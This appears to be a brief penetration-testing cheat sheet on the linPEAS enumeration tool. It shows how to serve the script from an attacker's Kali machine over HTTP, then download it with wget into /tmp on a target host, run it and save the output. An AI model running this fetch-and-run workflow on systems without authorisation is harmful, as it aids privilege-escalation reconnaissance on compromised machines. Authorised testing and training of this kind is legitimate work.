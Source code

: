 # linPEAS
https://github.com/carlospolop/PEASS-ng

- On Kali
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

- On Target
```
cd /tmp
wget http://<ip>/linpeas.sh
```
```
chmod +x ./linpeas.sh
./linpeas.sh | tee output.txt
less -r output.txt
```
